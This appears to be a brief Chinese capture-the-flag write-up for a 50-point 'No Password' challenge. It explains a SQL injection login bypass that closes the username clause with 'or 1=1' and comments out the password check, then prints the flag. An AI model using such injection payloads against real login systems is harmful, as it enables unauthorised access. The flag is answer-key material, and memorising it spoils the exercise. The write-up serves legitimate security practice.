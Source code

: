 # No Password [50]

題目提供兩個欄位做輸入，分別為 username 和 password。輸入完後會執行下列SQL instruction
```
SELECT * FROM user WHERE ( username = "" ) AND ( password = "" )
```

變法讓 username 閉合後輸入一個一定正確的半段式就行了，之後的部份用註解的形式迴避。

```
SELECT * FROM user WHERE ( username = "admin" or 1=1 ) -- " ) AND ( password = "" )
```

`FLAG{baby_first_sqlinj}`

